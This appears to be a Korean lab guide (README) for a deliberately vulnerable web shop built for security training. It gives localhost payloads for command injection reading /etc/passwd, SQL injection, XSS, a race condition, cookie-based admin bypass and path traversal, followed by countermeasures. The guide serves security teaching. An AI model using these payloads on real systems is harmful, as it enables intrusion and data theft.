 # 해커 굿즈 쇼핑몰 - 보안 취약점 실습 가이드

## 🎯 실습 목표
이 애플리케이션은 웹 보안 교육을 위해 의도적으로 취약점을 포함한 쇼핑몰입니다.
**절대 실제 운영 환경에서 사용하지 마세요!**

## 🚀 서버 실행 방법

### 1. 일반 실행
```bash
# 의존성 설치
npm install

# 서버 시작
npm start
# 또는
PORT=3001 node server.js
```

### 2. Docker 실행
```bash
# 이미지 빌드
docker build -t hacker-shop:latest .

# 컨테이너 실행
docker run -p 3001:3001 hacker-shop:latest

# 또는 docker-compose 사용
docker-compose up --build
```

## 🔐 취약점 실습 가이드

### 1. Command Injection (명령어 주입)
**위치**: `/api/search` 엔드포인트
**공격 방법**:
```bash
# 기본 검색
curl "http://localhost:3001/api/search?q=키보드"

# 명령어 주입 공격
curl "http://localhost:3001/api/search?q=\"; ls -la; echo \""
curl "http://localhost:3001/api/search?q=\"; cat /etc/passwd; echo \""
curl "http://localhost:3001/api/search?q=\"; whoami; echo \""
```

**브라우저에서 테스트**:
```
http://localhost:3001/api/search?q="; ls -la; echo "
http://localhost:3001/api/search?q="; cat server.js; echo "
```

### 2. SQL Injection (SQL 주입)
**위치**: `/api/login` 엔드포인트
**공격 방법**:
```bash
# 정상 로그인
curl -X POST "http://localhost:3001/api/login" \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "admin123"}'

# SQL 주입 공격
curl -X POST "http://localhost:3001/api/login" \
  -H "Content-Type: application/json" \
  -d '{"username": "admin\" OR \"1\"=\"1", "password": "anything"}'
```

**브라우저에서 테스트**:
- 로그인 페이지에서 username: `admin' OR '1'='1`
- password: 아무거나

### 3. XSS (Cross-Site Scripting)
**위치**: `/api/profile` 엔드포인트
**공격 방법**:
```bash
# XSS 공격
curl "http://localhost:3001/api/profile?name=<script>alert('XSS')</script>"
curl "http://localhost:3001/api/profile?name=<img src=x onerror=alert('XSS')>"
```

**브라우저에서 테스트**:
```
http://localhost:3001/api/profile?name=<script>alert('XSS')</script>
http://localhost:3001/api/profile?name=<img src=x onerror=alert('XSS')>
```

### 4. Race Condition (경합 조건)
**위치**: `/api/order` 엔드포인트
**공격 방법**:
```bash
# 동시에 여러 주문 요청을 보내서 재고 검증 우회
for i in {1..10}; do
  curl -X POST "http://localhost:3001/api/order" \
    -H "Content-Type: application/json" \
    -d '{"productId": 1, "quantity": 100, "userId": 1}' &
done
wait
```

### 5. 권한 우회 (Authorization Bypass)
**위치**: `/api/admin/users` 엔드포인트
**공격 방법**:
```bash
# 관리자 권한 없이 접근 시도
curl "http://localhost:3001/api/admin/users"

# 쿠키 조작을 통한 권한 우회
curl "http://localhost:3001/api/admin/users" \
  -H "Cookie: role=admin"
```

### 6. 경로 탐색 (Path Traversal)
**위치**: `/api/upload` 엔드포인트
**공격 방법**:
```bash
# 정상 파일 업로드
curl -X POST "http://localhost:3001/api/upload" \
  -F "file=@test.txt" \
  -F "filename=test.txt"

# 경로 탐색 공격
curl -X POST "http://localhost:3001/api/upload" \
  -F "file=@test.txt" \
  -F "filename=../../../etc/passwd"
```

## 🛡️ 보안 대책

### 1. Command Injection 방지
- 사용자 입력을 직접 셸 명령어에 전달하지 않기
- 입력 검증 및 이스케이프 처리
- 화이트리스트 기반 검증

### 2. SQL Injection 방지
- 매개변수화된 쿼리 사용
- ORM 사용
- 입력 검증

### 3. XSS 방지
- 출력 인코딩
- CSP (Content Security Policy) 적용
- 입력 검증

### 4. Race Condition 방지
- 트랜잭션 사용
- 락(Lock) 메커니즘 적용
- 원자적 연산 사용

### 5. 권한 우회 방지
- 적절한 세션 관리
- JWT 토큰 사용
- 서버 사이드 권한 검증

### 6. 경로 탐색 방지
- 파일 경로 검증
- 업로드 디렉토리 제한
- 파일명 정규화

## 📚 추가 학습 자료

### OWASP Top 10
- [OWASP Top 10 2021](https://owasp.org/www-project-top-ten/)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

### 보안 도구
- **Burp Suite**: 웹 애플리케이션 보안 테스트 도구
- **OWASP ZAP**: 오픈소스 보안 테스트 도구
- **Nmap**: 네트워크 스캐닝 도구
- **Wireshark**: 네트워크 패킷 분석 도구

## ⚠️ 주의사항
1. 이 애플리케이션은 **교육 목적**으로만 사용해야 합니다.
2. 실제 운영 환경에서는 절대 사용하지 마세요.
3. 다른 사람의 시스템에 대한 무단 침입은 불법입니다.
4. 실습은 자신의 환경에서만 진행하세요.

## 📞 문의
교육 관련 문의사항이 있으시면 강사에게 연락주세요.
